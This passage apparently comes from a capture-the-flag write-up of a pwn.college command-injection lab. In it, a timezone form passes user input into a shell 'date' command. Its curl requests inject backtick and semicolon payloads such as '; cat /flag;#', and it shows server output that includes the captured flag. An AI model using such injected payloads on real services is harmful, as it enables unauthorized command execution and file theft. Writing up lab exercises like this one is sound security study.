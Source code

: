 From the above command, the shell set the environment variable `TZ` to our provided value and then executes the `date` command in that context.

### Command Injection

#### Backticks 

If we provide the `whoami` command with backticks, the shell executes the command within the backticks first.
Once it has the result for the `whoami` command, the shell will substitute the result in the `TZ` variable.

```
## Request:
curl "http://challenge.localhost:80/exercise?zone=`whoami`"

## Resultant command
TZ=`whoami` date  ==>  TZ=root date
```

![image](https://github.com/Kunull/Write-ups/assets/110326359/e8bd69b6-6261-4df3-b7a5-4013c3a4e550)

![image](https://github.com/Kunull/Write-ups/assets/110326359/5558b05c-23df-461d-9b37-9c5c92449089)

```
hacker@web-security~cmdi-4:/$ curl "http://challenge.localhost:80/exercise?zone=`whoami`"

        <html><body>
        Welcome to the timezone service! Please choose a timezone to get the time there.
        <form action="/exercise"><input type=text name=zone><input type=submit value=Submit></form>
        <hr>
        <b>Output of TZ=hacker date:</b><br>
        <pre>Tue Jun 10 16:36:19 hacker 2025
</pre>
        </body></html>
```

```
## Request:
url "http://challenge.localhost:80/exercise?zone=; cat /flag;#"

## Resultant commands:
TZ=;
cat /flag;
#date    ## The date command is commented out
```

```
hacker@web-security~cmdi-4:/$ curl "http://challenge.localhost:80/exercise?zone=;%20cat%20%2Fflag;#"

        <html><body>
        Welcome to the timezone service! Please choose a timezone to get the time there.
        <form action="/exercise"><input type=text name=zone><input type=submit value=Submit></form>
        <hr>
        <b>Output of TZ=; cat /flag; date:</b><br>
        <pre>pwn.college{Ysq82cpYvUuY5etm1UCOIotGS6b.dhDOzMDL4ITM0EzW}
</pre>
        </body></html>
```

